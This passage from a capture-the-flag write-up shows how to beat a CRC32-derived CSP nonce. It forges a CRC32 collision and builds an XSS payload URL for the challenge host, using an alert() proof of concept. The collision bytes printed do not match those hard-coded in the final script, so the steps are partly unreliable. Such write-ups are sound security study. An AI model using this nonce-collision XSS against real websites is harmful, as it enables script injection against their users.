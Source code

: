 **Let's clone that repository!**
```shell
┌[siunam♥earth]-(/opt)-[2023.02.08|17:37:33(HKT)]
└> sudo git clone https://github.com/bediger4000/crc32-file-collision-generator.git
[sudo] password for siunam: 
Cloning into 'crc32-file-collision-generator'...
```

**Then, we can create a `target.txt` for generating the nonce value, and `payload.txt` for the XSS payload:**
```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:38:00(HKT)]
└> echo -n '0' > target.txt
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:41:58(HKT)]
└> /opt/crc32-file-collision-generator/crc32 target.txt                
target.txt, read 1 bytes
	CRC32: f4dbdf21
```

> Note: The `-n` flag must be used to remove the new line character (`\n`) in the end.

```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:42:17(HKT)]
└> echo -n '<script nonce="f4dbdf21">alert(document.domain)</script>' > payload.txt
```

> Note: For testing purposes, we can first use `alert()` JavaScript function.

**After that, use `matchfile` to find the collided hash:**
```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:43:01(HKT)]
└> /opt/crc32-file-collision-generator/matchfile target.txt payload.txt
File to match has length 1, CRC32 value f4dbdf21
File to get to match has length 56, CRC32 value 2d0aaf44
Bytes to match: 41db763a
3a 76 db 41 
:v�A
```

Next, URL encode the XSS payload **and the collided bytes**:

```py
#!/usr/bin/env python3

import urllib.parse

def main():
    url = 'https://recursive-csp.mc.ax/?name='
    XSSpayload = ''.join(open('payload.txt', 'r'))
    matchedBytes = '%c3%71%37%2f'

    print(f'URL encoded Payload:\n{url}{urllib.parse.quote(XSSpayload)}{matchedBytes}')

if __name__ == '__main__':
    main()
```
